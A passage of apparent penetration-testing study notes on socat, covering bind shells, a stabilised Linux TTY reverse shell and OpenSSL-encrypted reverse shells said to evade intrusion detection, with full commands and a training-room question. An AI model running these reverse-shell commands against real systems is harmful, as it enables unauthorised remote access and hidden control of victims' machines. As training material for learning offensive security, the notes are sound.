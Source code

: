 On a Linux target we would use the following command: `socat TCP-L:<PORT>EXEC:"bash -li"`. On a Windows system the command is `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`. Regardless of the target, this is the command to be used on our attacking machine to connect to the waiting listener `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

---

Socat can also return a fully stable Linux tty reverse shell. This only works when the target is Linux but is significantly more stable. The new listener syntax is ``socat TCP-L:<port> FILE:`tty\`,raw,echo=0``. As usual, we're connecting two points together. In this case those points are a listening port, and a file. This is pretty much equivalent to the netcat method with Ctrl + Z `stty raw -echo; fg`.

The basic listener can be connected to with any payload, however this listener must be activated with a specific socat command in order to get it to work properly. The target must have socat installed so a precompiled binary will need to be uploaded to the target first. 

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` is ran on the victim machine. The first part of this command links up with the listener on our own machine. Next an interactive bash session is created `EXEC:"bash -li"` passing the following arguments:

* pty, allocates a pseudoterminal on the target - part of the stabilisation process
* stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* setsid, creates the process in a new session
* sane, stabilises the terminal, attempting to "normalise" it.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. 

**Questions**

    1. How would we get socat to listen on TCP port 8080?

TCP-L:8080

## Socat Encrypted Shells

Socat is capable of creating encrypted bind and reverse shells. They cannot be spied on unless you have the decryption key and are often able to bypass an IDS as a result.

We need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine.

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed and valid for just under a year. This command will ask for information about the certificate. This can be left blank. The two output files need to be merged into a single `.pem` file.

`cat shell.key shell.crt > shell.pem`

Now when we set up our reverse shell listener we use `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` The certificate must be on the device that is listening. To connect back to the attacking machine we use `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`.
